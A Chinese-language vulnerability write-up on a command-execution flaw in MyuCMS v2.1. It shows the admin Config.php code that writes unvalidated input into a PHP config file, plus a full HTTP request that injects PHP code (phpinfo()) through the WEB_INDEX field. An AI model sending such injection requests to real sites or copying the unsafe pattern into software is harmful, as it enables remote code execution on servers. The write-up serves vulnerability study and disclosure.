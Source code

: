 MyuCMS v2.1 命令执行漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD上没有说明存在的页面。我找到的是一处能控制 **extre/web.php**
内容的漏洞。

漏洞成因是使用 **file\_put\_contents** 函数更新 **extre**
下配置文件的内容时，未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

相同原理漏洞影响3个文件共5处。分别为
**application/admin/controller/Config.php**，
**application/admin/controller/Muban.php**
，**application/admin/controller/Point.php**

此处以 **application/admin/controller/Config.php** 下的 **add()**
方法为例分析

    public function add()
        {
           $path = 'application/extra/web.php';
           $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
           $config = array( // 读取 post 中提交的配置内容
             'WEB_RXT' => input('WEB_RXT'),
             'WEB_GL' => input('WEB_GL'),
             'WEB_REG' => input('WEB_REG'),
             'WEB_TAG' => input('WEB_TAG'),
             'WEB_OPE' => input('WEB_OPE'),
             'WEB_BUG' => input('WEB_BUG'),
             'WEB_BBS' => input('WEB_BBS'),
             'WEB_SHOP' => input('WEB_SHOP'),
             'WEB_INDEX' => input('WEB_INDEX'),
             'WEB_KEJIAN' => input('WEB_KEJIAN'),
             'WEB_KEJIANS' => input('WEB_KEJIANS'),
             'Cascade' => input('Cascade'),
             //七牛
             'bucket' => input('bucket'),
             'accessKey' => input('accessKey'),
             'secrectKey' => input('secrectKey'),
             'domain' => input('domain'),
             'qiniuopen' => input('qiniuopen'),
           );
            $res = array_merge($file, $config); // 合并两个数组
            $str = '<?php return [';
            foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
                $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
            }
            $str .= ']; ';
            if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
                return json(array('code' => 200, 'msg' => '修改成功'));
            } else {
                return json(array('code' => 0, 'msg' => '修改失败'));
            }
        }

### Payload

Payload数据包如下：

    POST /admin/config/add.html HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 327
    Origin: http://www.myu.io
    Connection: close
    Referer: http://www.myu.io/admin/config/index.html
    Cookie: PHPSESSID=l6ijpio06mqmhcdq654g63eq90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904; XDEBUG_SESSION=XDEBUG_ECLIPSE

    WEB_KEJIAN=0&WEB_KEJIANS=0&WEB_INDEX=bbs',phpinfo(),'&WEB_RXT=rar,png,zip,jpg,gif,ico,7z&qiniuopen=0&secrectKey=0&accessKey=0&domain=0&bucket=0&Cascade=1&WEB_BUG=true&WEB_REG=1&WEB_OPE=1&WEB_GL=0&WEB_BBS=1&WEB_SHOP=1&WEB_TAG=%e6%8f%92%e4%bb%b6%2c%e5%bb%ba%e8%ae%ae%2c%e6%a8%a1%e6%9d%bf%2c%e7%ad%be%e5%88%b0%2c%e5%8f%8d%e9%a6%88

写入的内容和效果如下：

![11.jpg](./resource/MyuCMSv2.1命令执行漏洞/media/rId25.jpg)

![111.jpg](./resource/MyuCMSv2.1命令执行漏洞/media/rId26.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-4

